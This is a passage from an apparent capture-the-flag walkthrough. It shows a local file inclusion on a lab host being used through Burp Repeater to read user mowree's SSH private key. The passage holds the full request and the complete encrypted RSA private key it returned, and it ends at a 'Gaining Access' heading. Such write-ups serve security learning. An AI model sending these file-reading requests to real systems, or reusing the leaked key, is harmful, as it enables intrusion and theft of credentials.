 > **Username:** mowree

Okay, we have a user, mowree. Since LFI is possible let's see if we can traverse into other areas of the target. For example, we know the target is running an ssh service so let's look to see we can find any ssh keys...

You could, in theory, go to this path directly from a web browser but for the sake of best practices, I did a `GET` request in BurpSuite using Repeater.

![GET request using Burpsuite Repeater](https://i.imgur.com/tqyCvkw.png)

**REQUEST**
```console
GET /secret/evil.php?command=/home/mowree/.ssh/id_rsa HTTP/1.1
Host: 10.0.2.16
```

**RESPONSE**
```console
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: DES-EDE3-CBC,9FB14B3F3D04E90E

uuQm2CFIe/eZT5pNyQ6+K1Uap/FYWcsEklzONt+x4AO6FmjFmR8RUpwMHurmbRC6
hqyoiv8vgpQgQRPYMzJ3QgS9kUCGdgC5+cXlNCST/GKQOS4QMQMUTacjZZ8EJzoe
o7+7tCB8Zk/sW7b8c3m4Cz0CmE5mut8ZyuTnB0SAlGAQfZjqsldugHjZ1t17mldb
+gzWGBUmKTOLO/gcuAZC+Tj+BoGkb2gneiMA85oJX6y/dqq4Ir10Qom+0tOFsuot
b7A9XTubgElslUEm8fGW64kX3x3LtXRsoR12n+krZ6T+IOTzThMWExR1Wxp4Ub/k
HtXTzdvDQBbgBf4h08qyCOxGEaVZHKaV/ynGnOv0zhlZ+z163SjppVPK07H4bdLg
9SC1omYunvJgunMS0ATC8uAWzoQ5Iz5ka0h+NOofUrVtfJZ/OnhtMKW+M948EgnY
zh7Ffq1KlMjZHxnIS3bdcl4MFV0F3Hpx+iDukvyfeeWKuoeUuvzNfVKVPZKqyaJu
rRqnxYW/fzdJm+8XViMQccgQAaZ+Zb2rVW0gyifsEigxShdaT5PGdJFKKVLS+bD1
tHBy6UOhKCn3H8edtXwvZN+9PDGDzUcEpr9xYCLkmH+hcr06ypUtlu9UrePLh/Xs
94KATK4joOIW7O8GnPdKBiI+3Hk0qakL1kyYQVBtMjKTyEM8yRcssGZr/MdVnYWm
VD5pEdAybKBfBG/xVu2CR378BRKzlJkiyqRjXQLoFMVDz3I30RpjbpfYQs2Dm2M7
Mb26wNQW4ff7qe30K/Ixrm7MfkJPzueQlSi94IHXaPvl4vyCoPLW89JzsNDsvG8P
hrkWRpPIwpzKdtMPwQbkPu4ykqgKkYYRmVlfX8oeis3C1hCjqvp3Lth0QDI+7Shr
Fb5w0n0qfDT4o03U1Pun2iqdI4M+iDZUF4S0BD3xA/zp+d98NnGlRqMmJK+StmqR
IIk3DRRkvMxxCm12g2DotRUgT2+mgaZ3nq55eqzXRh0U1P5QfhO+V8WzbVzhP6+R
MtqgW1L0iAgB4CnTIud6DpXQtR9l//9alrXa+4nWcDW2GoKjljxOKNK8jXs58SnS
62LrvcNZVokZjql8Xi7xL0XbEk0gtpItLtX7xAHLFTVZt4UH6csOcwq5vvJAGh69
Q/ikz5XmyQ+wDwQEQDzNeOj9zBh1+1zrdmt0m7hI5WnIJakEM2vqCqluN5CEs4u8
p1ia+meL0JVlLobfnUgxi3Qzm9SF2pifQdePVU4GXGhIOBUf34bts0iEIDf+qx2C
pwxoAe1tMmInlZfR2sKVlIeHIBfHq/hPf2PHvU0cpz7MzfY36x9ufZc5MH2JDT8X
KREAJ3S0pMplP/ZcXjRLOlESQXeUQ2yvb61m+zphg0QjWH131gnaBIhVIj1nLnTa
i99+vYdwe8+8nJq4/WXhkN+VTYXndET2H0fFNTFAqbk2HGy6+6qS/4Q6DVVxTHdp
4Dg2QRnRTjp74dQ1NZ7juucvW7DBFE+CK80dkrr9yFyybVUqBwHrmmQVFGLkS2I/
8kOVjIjFKkGQ4rNRWKVoo/HaRoI/f2G6tbEiOVclUMT8iutAg8S4VA==
-----END RSA PRIVATE KEY-----
```

## Gaining Access
